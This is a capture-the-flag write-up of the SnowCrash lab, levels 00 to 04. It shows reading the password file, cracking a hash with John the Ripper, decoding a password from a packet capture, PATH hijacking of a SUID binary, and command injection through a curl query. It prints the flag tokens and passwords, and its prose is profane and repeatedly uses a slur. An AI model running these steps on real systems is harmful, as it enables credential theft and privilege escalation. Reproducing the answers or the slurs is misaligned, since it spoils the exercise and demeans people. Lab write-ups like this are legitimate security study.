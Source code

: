 # snowcrash, why am I doing this to myself
This is supposed to be some introductory project to cybersecurity.
#### random shit I found
```
level00@SnowCrash:~$ users
level00 level00
```
there are no fucking files, don't know where the fuck to start this retarded shit
```
level00@SnowCrash:~$ps -U level00
  PID TTY          TIME CMD
 1935 tty1     00:00:00 bash
 2194 ?        00:00:00 sshd
 2195 pts/0    00:00:00 bash
 2314 pts/0    00:00:00 ps
```
*no weird processes noted by this fucking stupid user*
```
level00@SnowCrash:~$find / -user level00 -type f 2> /dev/null
```
*what the fuck, endless fucking files, kill me*
So I was looking for the wrong user, apparently flag00 is a fucking user
```
find / -group flag00 2>/dev/null
```
## file found for flag00, /usr/sbin/john
containing
```
cdiiddwpgswtgt
```
looks like a cypher, but which one, kill me

using this baby **https://www.boxentriq.com/code-breaking/cipher-identifier**
detected **Bifid Cipher**, tried decyphering, nothing, fucking retarded detector

### trying Caesar Cipher cuz it's the second recommend
outputs: nottoohardhere
```
level00@SnowCrash:~$ su flag00
Password: 
Don't forget to launch getflag !
flag00@SnowCrash:~$ getflag
Check flag.Here is your token : x24ti5gi3x0ol2eh4esiuxias
```
## level01
Of course this bullshit is empty again
### stupid blind enumeration commands
```
env
```
*show all env variables, nothing fucking interesting*
```
sudo -l
```
*display all sudo info for current user, asks for the fucking password, kill me*
```
find / -perm /6000 2>/dev/null;
```
*shows all SUID and SGID files, nothing interesting to note*
```
cat /etc/shadow
```
*perm denied*
```
cat /etc/passwd
```
*listing users in the system*
Shows user flag01
```
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```
fucking kill me, need to crack the passwd file, googled of course, **John the Ripper**, and yay, can't use it on the retarded Snowcrash machine

**tried to fucking use docker but the fucking retarded mac is fucking retarded, KILL ME**
Using google cloud, john installed, need to send the passwd file
```
scp -P 4242 level01@10.12.100.115:/etc/passwd .
```
Nothing connection timed out, kill me, copied the passwd file, download wordlist from **https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Software/john-the-ripper.txt**
```
~$ /usr/sbin/john --wordlist=wordlist.txt passwd
$ /usr/sbin/john --show passwd 
flag01:abcdefg:3001:3001::/home/flag/flag01:/bin/bash
1 password hash cracked, 0 left
```
*tada*
```
su flag01
Password:abcdefg
Don't forget to launch getflag !
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
flag01@SnowCrash:~$ su level02
Password:f2av5il02puano7naaf6adaaf
```
## level02
#### tshark, I think?
```
scp -P 4242 level02@10.12.100.115:/home/user/level02/level02.pcap .
```
Using tshark to open capture file, found
```
0000   00 24 1d 0f 00 ad 08 00 27 cc 8a 1e 08 00 45 00   .$......'.....E.
0010   00 41 d4 b3 40 00 40 06 16 77 3b e9 eb df 3b e9   .A..@.@..w;...;.
0020   eb da 2f 59 99 4f ba a8 fb 18 9d 18 15 7b 80 18   ../Y.O.......{..
0030   01 c5 27 9d 00 00 01 01 08 0a 02 c2 3c 62 01 1b   ..'.........<b..
0040   b9 87 00 0d 0a 50 61 73 73 77 6f 72 64 3a 20      .....Password: 
```
*at No 43*

reading the following lines` Data :
```
66 74 5f 77 61 6e 64 72 7f 7f 7f 4e 44 52 65 6c 7f 4c
```
Using hex to ascii, **ft_wandrNDRelL**, authentication failure, I guess i have missed the last hex
```
66 74 5f 77 61 6e 64 72 7f 7f 7f 4e 44 52 65 6c 7f 4c 30 4c
```
**ft_wandrNDRelL0L**
```
su flag02
Password: ft_wandrNDRelL0L
Don't forget to launch getflag !
flag02@SnowCrash:~$ getflag
Check flag.Here is your token : kooda2puivaav1idi4f57q8iq
flag02@SnowCrash:~$ su level03
Password:kooda2puivaav1idi4f57q8iq
```
## level03
#### exploitme
```
level03@SnowCrash:~$ ls -al
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```
*executable has SUID permission, **When you execute a program that has the SUID bit enabled, you inherit the permissions of that program's owner***

Using **binary ninja**
```
mov     dword [esp], data_80485e0  {"/usr/bin/env echo Exploit me"}
```
*create symbolic link of echo that runs getflag, of course permission denied, so i used /tmp*
```
level03@SnowCrash:~$ln -s /bin/getflag /tmp/echo
level03@SnowCrash:~$ export PATH=.:$PATH
level03@SnowCrash:/tmp$ ./level03
Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :)
```
*Fucking kill me*
#### I'm a fucking idiot retard, PATH should be PATH=/tmp:$PATH
```
level03@SnowCrash:~$ export PATH=/tmp:$PATH
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ su level04
Password:qi0maab88jeaj46qoumi7maus
```
## level04, fucking perl
Executing it doesn't print shit, tried editing 
```
curl http://10.12.100.115:4747/\?x\=$\(getflag\)
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```